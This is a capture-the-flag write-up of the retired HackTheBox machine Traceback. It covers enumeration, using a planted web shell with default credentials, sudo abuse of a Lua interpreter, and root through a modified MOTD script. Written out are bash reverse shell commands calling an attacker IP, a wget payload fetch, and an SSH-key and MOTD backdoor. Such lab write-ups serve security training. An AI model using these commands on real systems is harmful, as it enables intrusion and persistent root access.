


# Traceback

This is the write-up for the box Traceback that got retired at the 15th August 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.181    traceback.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/traceback.nmap 10.10.10.181
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website shows the following message:
```
This site has been owned
I have left a backdoor for all the net. FREE INTERNETZZZ
- Xh4H -
```

In the HTML source code is a comment:
```
<!--Some of the best web shells that you might need ;)-->
```

By doing some **OSINT** and searching for the hackers name _Xh4H_, a GitHub profile can be found and the hacker has a [repository with Web-Shells](https://github.com/Xh4H/Web-Shells).
When searching for the comment in a search engine, there is another [GitHub repository with Web Shells](https://github.com/TheBinitGhimire/Web-Shells).

Lets copy the names of the shells into a file and search for them with **Gobuster**:
```
gobuster -u http://10.10.10.181 dir -w shell_names.list
```

The web shell _/smevk.php_ gets found and forwards to a login page for the shell:



By trying the default credentials _admin:admin_ we can login.
On this web shell, it is possible to execute any command in the _Execute_ field, so a reverse shell connection can be started:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'
```



After executing the command, a reverse shell connection on my IP and port 9001 starts as the user _webadmin_.

## Privilege Escalation

In the home directory _/home/webadmin_ is a note in _note.txt_ from the _sysadmin_ user:
```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

The _.bash_history_ of _webadmin_ reveals the potential path to escalate privileges:
```
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
```

By checking the `sudo` permissions of the user, it shows that this user can run _/home/sysadmin/luvit_ as _sysadmin_:
```
sudo -l

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

After executing it without parameters, it look like some kind of **Lua Interpreter**:
```
sudo -u sysadmin /home/sysadmin/luvit

Welcome to the Luvit repl!
```

The [GTFOBins for lua](https://gtfobins.github.io/gtfobins/lua/#sudo) shows a privilege escalation method when it is run with sudo permissions:
```
sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")''
```
```
sysadmin@traceback:/home/webadmin$ whoami

sysadmin
```

This works and starts a bash shell as _sysadmin_.

### Privilege Escalation to root

When searching for all files, in which the hacker put their name into, we find files for **MOTD (Message of the Day)**:
```
grep -rnw / -e 'Xh4H' 2>/dev/null

/etc/update-motd.d/00-header:25:echo
/var/backups/.update-motd.d/00-header:25:echo
```

The tool **Pspy** can show the running processes in the background, which may reveal if the attacker compromised root with **MOTD**:  
```
wget 10.10.14.9:8000/pspy64s

./pspy64s
```

Every minute the **MOTD** messages in _/var/backups_ are copied into _/etc/update-motd.d/_:
```
/bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

The **Message Of The Day** files gets run every time a user logs into the box via SSH.
By modifying one of the messages and using SSH to get into the box, we should be able run any command and escalate privileges to root.

Creating an SSH key on our local box:
```
ssh-keygen -f sysadmin.key
```

Writing the public key into the _/home/sysadmin/.ssh/authorized_keys_ file:
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ(...)" >> /home/sysadmin/.ssh/authorized_keys
```

Modifying _/etc/update-motd.d/00-header_ to execute a reverse shell command:
```
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.9/9002 0>&1'" >> /etc/update-motd.d/00-header
```

Using SSH to get into the box:
```
ssh -i sysadmin.key sysadmin@10.10.10.181
```

After using SSH, the command will run and the listener on my IP and port 9002 starts a reverse shell connection as _root_!
